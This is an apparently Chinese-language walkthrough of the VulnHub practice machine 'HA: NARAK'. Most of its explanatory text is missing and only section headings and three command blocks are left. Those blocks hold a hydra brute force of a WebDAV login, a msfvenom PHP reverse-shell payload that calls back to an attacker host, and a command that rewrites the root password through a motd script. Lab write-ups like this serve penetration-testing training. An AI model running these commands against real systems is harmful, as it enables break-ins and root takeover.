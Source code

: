 # 原创
：  VulnHub渗透测试实战靶场-HA：NARAK

# VulnHub渗透测试实战靶场-HA：NARAK

#### VulnHub渗透测试实战靶场-HA：NARAK

## 环境下载

> 



## HA：NARAK靶机搭建

> 



## 渗透测试

### 信息搜集

> 



> 



> 



### 漏洞挖掘

> 



```
cewl http://192.168.246.140 -w wordlist.txt

hydra -L wordlist.txt -P wordlist.txt -f -V 192.168.246.140 http-get /webdav

```

### getshell

> 



```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.246.129 LPORT=1234 R &gt; shell.php

```

### 提权

> 



> 



> 



> 



> 



```
echo "echo 'root:d1no' | sudo chpasswd" &gt;&gt; 00-header

```

> 


